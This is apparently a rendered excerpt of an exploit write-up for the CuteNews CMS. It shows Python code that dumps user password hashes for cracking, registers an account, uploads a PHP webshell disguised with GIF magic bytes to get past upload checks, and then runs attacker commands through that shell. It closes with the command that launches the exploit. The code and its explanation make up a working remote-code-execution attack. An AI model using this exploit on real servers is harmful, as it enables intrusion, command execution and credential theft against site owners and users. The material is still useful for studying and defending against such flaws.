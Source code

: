 ```python
        print ()
        command = input("command > ")
        postdata = {"cmd" : command}
        output = sess.post(f"{ip}/CuteNews/uploads/avatar_{logged_user}_{logged_user}.php", data=postdata)
        if 404 == output.status_code:
            print ("sorry i can't find your webshell try running the exploit again")
            sys.exit()
        else:
            output = re.sub("GIF8;", "", output.text)
            print (output.strip())

if __name__ == "__main__":
    print ("================================================================\nUsers SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN\n================================================================")
    extract_credentials()
    print ("================================================================")
    print()
    print ("=============================\nRegistering a users\n=============================")
    register()
    print()
    print("=======================================================\nSending Payload\n=======================================================")
    send_payload(payload)
    print ()
```

This part of the exploit sends a GET request to `/CuteNews/index.php?mod=main&opt=personal` and searches for `signature_dsi`, `signature_key`, `logged_user` in the response using `re` python module. The signatures are required for updating the profile in `CuteNews`.

The variable `payload` has a PHP payload which system commands with the value supplied in 'cmd' GET parameter but to upload this file, payload has `GIF8` and this bypasses the file uploading checks by adding GIF machine bytes and the arbitrary PHP file is uploaded by tricking the server into uploading a GIF file.

---

## Exploitation
`python3 exploit.py`
